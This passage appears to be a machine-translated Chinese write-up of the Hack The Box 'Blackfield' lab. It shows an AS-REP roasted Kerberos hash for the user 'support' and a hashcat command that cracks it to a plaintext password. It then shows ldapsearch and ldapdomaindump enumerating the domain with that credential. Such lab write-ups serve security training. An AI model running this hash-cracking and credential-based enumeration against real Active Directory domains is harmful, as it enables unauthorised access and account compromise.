 ```
[-] User **audit2020** doesn't have UF_DONT_REQUIRE_PREAUTH set $krb5asrep$23$**support**@BLACKFIELD.LOCAL:e6dfe911ddb2bd2631db466196100954$360cd4940e6f7b574aa0a1cadde4a74dd1320b85cd9d043c14260c62558fc409a4b0015132514b3e5aca159bed53c2716ac70da1abc8b8657d959450ad1e69eca2d51209157c977183b1b0465545f9f5dc3a70d00c0c2f713010a5fcba856615f671896f181709a581273c4f85214205ca84760a4650eebd545b62d7562a8a62c2f39d3a502a4411390df2f7cc5abe997fa06e384500925d5486bbba4aa5c4279d28560905434d99d30ba70dec2b237302ac3d32cfca19e9065a6a0544d9be93c6c034820293557679531fcbd2cebdef926630833716e4b658a43b573bd4d018c53d7083213f6c45f524ab327163f71bb05e6277 [-] User **svc_backup** doesn't have UF_DONT_REQUIRE_PREAUTH set
```

使用`hashcat`，它出现裂缝:

```
hashcat -m 18200 support.hash /usr/share/wordlists/rockyou.txt ..<snip>..$krb5asrep$23$support@BLACKFIELD.LOCAL:e6dfe911ddb2bd2631db466196100954$360cd4940e6f7b574aa0a1cadde4a74dd1320b85cd9d043c14260c62558fc409a4b0015132514b3e5aca159bed53c2716ac70da1abc8b8657d959450ad1e69eca2d51209157c977183b1b0465545f9f5dc3a70d00c0c2f713010a5fcba856615f671896f181709a581273c4f85214205ca84760a4650eebd545b62d7562a8a62c2f39d3a502a4411390df2f7cc5abe997fa06e384500925d5486bbba4aa5c4279d28560905434d99d30ba70dec2b237302ac3d32cfca19e9065a6a0544d9be93c6c034820293557679531fcbd2cebdef926630833716e4b658a43b573bd4d018c53d7083213f6c45f524ab327163f71bb05e6277:**#00^BlackKnight**
```

现在我有了用户`support`的密码，我知道我有 1 个有效的域凭证。在 Active Directory 环境中，访问一个有效的凭据允许您枚举和收集大量关于域的信息。我用`ldapsearch`进一步列举。

```
ldapsearch -x -h 10.10.10.192 -D 'BLACKFIELD\support' -w '#00^BlackKnight' -b "DC=BLACKFIELD,DC=LOCAL"
```

为了简洁起见，我没有在这里包括输出，只是想展示如何使用`ldapsearch`进行枚举。原因是当使用`ldapsearch`进行调查时，有一些属性很容易被发现，而`ldapdomaindump` 并没有将这些属性包含在它的输出中。使用`ldapdomaindump` 的好处是看起来很舒服。为了使事情变得简单，我使用`ldapdomaindump` 来收集关于领域的信息:

```
ldapdomaindump ldap://10.10.10.192 -u "BLACKFIELD\support" -p "#00^BlackKnight" --no-json --no-grep -o ldapdomaindump[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

研究 domain_users.html 文件，其中提到了机器创建者(kudos，这个框很棒)和关于用户`svc_backup` 是`Remote Management Users`成员的信息，这意味着用户可以使用 PowerShell Remoting 在机器上执行命令。

![](img/8ac4bd92ff831daccfc14ad66e787d24.png)

检查另外两个有效用户的信息，我们可以看到`DONT_REQ_PREAUTH` 被设置在`support` 用户上，这就是为什么它容易受到 AS-REP 烘烤的原因。

![](img/ecb04b5eb29b3fcbf6c04eb26ea7e5d6.png)
